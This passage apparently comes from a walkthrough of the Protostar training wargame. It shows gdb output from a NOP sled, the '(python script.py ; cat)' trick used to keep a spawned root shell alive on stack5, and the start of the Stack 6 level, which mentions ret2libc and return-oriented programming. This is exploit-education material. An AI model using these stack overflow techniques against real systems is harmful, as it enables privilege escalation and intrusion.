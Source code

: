 ``` shell
0xbffff814:     int3
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff814 in ?? ()
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff816:     int3
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff816 in ?? ()
.....
(gdb) c
Continuing.
Executing new program: /bin/dash
```

Nice~ Our script looks good. I will remove the breakpoint trap **int3** and run the script to solve the level.

``` shell
user@protostar:~$ python script.py | /opt/protostar/bin/stack5
user@protostar:~$
```

Hmm... What's wrong!? Why we didn't we get the root shell? 

This is because the shell we are executing wants some inputs, right? But since we redirected the script’s stdout into the program’s stdin. When the program was done, it closed the pipe. So now the shell is executed, but doesn't have any input, because it closed. So it will just exit. 

The trick to get around with this is using **cat**. This works because **cat** keeps the input stream open, preventing the shell from exiting.

``` shell
user@protostar:~$ (python script.py ; cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

## Stack 6

Description:

>Stack6 looks at what happens when you have restrictions on the return address.<br><br>
>This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.<br><br>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.<br><br>
>This level is at /opt/protostar/bin/stack6

Source code:
